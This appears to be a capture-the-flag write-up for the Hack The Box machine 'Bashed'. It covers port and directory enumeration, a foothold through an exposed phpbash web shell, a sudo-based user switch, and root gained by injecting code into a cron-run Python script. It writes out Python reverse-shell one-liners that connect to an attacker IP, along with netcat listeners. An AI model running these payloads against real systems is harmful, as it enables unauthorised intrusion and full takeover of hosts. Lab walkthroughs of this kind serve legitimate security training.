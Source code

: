 Target:10.10.10.68

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.68       

Nmap scan report for 10.10.10.68
Host is up (0.13s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ

uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

checking 10.10.10.68

![index](bashed1.png)

checking single

![single.html](bashed2.png)

checking /dev

![/dev](bashed3.png)

### Findings:Looking for attack vectors

Got shell in /dev


## Foothold:

checking /dev/phpbash

![/dev/phpbash](bashed4.png)

```
www-data@bashed:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

enumerating users
```
www-data@bashed:/var/www/html# cat /etc/passwd | grep sh

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

checking /home/arrexel

![/home/arrexel](bashed5.png)

```
cat user.txt

<redacted>
```


## Lateral Movement:

```
www-data@bashed:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL


www-data@bashed:/home/arrexel# sudo -u scriptmanager bash

sudo: no tty present and no askpass program specified
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

establishing a proper shell
```
www-data@bashed:/home/arrexel# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@bashed:/home/arrexel$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

switching user
```
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash

scriptmanager@bashed:/home/arrexel$ id

uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Priv Escalations:


looking for suspicious file/s
```
scriptmanager@bashed:/home/arrexel$ find / -user scriptmanager 2> /dev/null

/scripts
/scripts/test.py
<snip>

scriptmanager@bashed:/home/arrexel$ cd /scripts

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:47 test.txt

scriptmanager@bashed:/scripts$ cat /scripts/test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close

scriptmanager@bashed:/scripts$ ls -la

total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 20 00:54 test.txt
```

The script test.py opens test.txt and write "testing 123!" and there seem to be a cronjob running


opening a nc listener on port 9002
```
$ nc -lnvp 9002
```

prepairing malicous python code
```
echo "import socket,subprocess,os;" >> test.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);" >> test.py
echo "s.connect(("<ip>",9002));" >> test.py
echo "os.dup2(s.fileno(),0);" >> test.py
echo "os.dup2(s.fileno(),1);" >> test.py
echo "os.dup2(s.fileno(),2);" >> test.py
echo "p=subprocess.call(["/bin/sh","-i"]);" >> test.py
```

```
# id

uid=0(root) gid=0(root) groups=0(root
```

```
# cat /root/root.txt

<redacted>
```
